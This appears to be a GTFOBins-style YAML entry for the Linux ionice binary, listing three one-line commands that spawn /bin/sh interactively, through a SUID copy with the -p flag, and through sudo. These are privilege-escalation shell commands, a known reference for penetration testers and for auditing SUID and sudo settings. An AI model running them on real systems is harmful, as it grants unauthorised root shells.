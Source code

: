 ```yaml
---
functions:
  execute-interactive:
    - code: ionice /bin/sh
  suid-enabled:
    - code: ./ionice /bin/sh -p
  sudo-enabled:
    - code: sudo ionice /bin/sh
---
```

